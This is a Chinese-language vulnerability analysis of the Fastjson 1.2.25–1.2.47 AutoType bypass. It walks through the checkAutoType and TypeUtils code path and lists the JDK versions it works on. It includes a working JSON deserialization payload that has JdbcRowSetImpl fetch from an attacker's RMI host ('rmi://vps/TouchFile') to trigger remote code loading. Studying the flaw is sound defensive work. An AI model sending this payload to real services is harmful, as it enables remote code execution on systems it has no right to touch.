






# Fastjson1.2.25-1.2.47绕过无需AutoType

## 说明

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

其他的限制

基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191

## Payload与简单思路分析

首先给出payload

```
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://vps/TouchFile",
		"autoCommit": true
	}
}
```

通过java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，checkAutoType()就会抛出异常终止程序。

## 受AutoTypeSupport影响的版本分析

### 未开启AutoType时


第一次在调用`checkAutoType`的时候

在接下来的findClass()函数中直接被找到，并在后面的if判断clazz不为空后直接返回



调用到`MiscCodec.deserialze()`,判断键是否为”val”，是的话再提取val键对应的值赋给objVal变量，而objVal在后面会赋值给strVal变量



接着判断clazz是否为Class类，是的话调用TypeUtils.loadClass()加载strVal变量值指向的类



在TypeUtils.loadClass()函数中，成功加载com.sun.rowset.JdbcRowSetImpl类后，就会将其缓存在Map中：


之后在扫描第二部分的JSON数据时，由于前面第一部分JSON数据中的val键值`com.sun.rowset.JdbcRowSetImpl`已经缓存到`Map`中了，所以当此时调用`TypeUtils.getClassFromMapping()`时能够成功从Map中获取到缓存的类，进而在下面的判断clazz是否为空的if语句中直接return返回了，从而成功绕过`checkAutoType()`检测



### 开启AutoType时

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

第一部分还是一样的过程，但是第二部分无法绕过黑名单



## 不受AutoTypeSupport影响的版本分析

### 未开启AutoType时

比较类似就不分析了


### 开启AutoType时

在第一部分JSON数据的扫描解析中，由于@type指向java.lang.Class，因此即使是开启AutoTypeSupport先后进行白名单、黑名单校验的情况下都能成功通过检测，之后和前面的一样调用findClass()函数获取到Class类，毕竟`TypeUtils.getClassFromMapping(typeName)`不为`null`


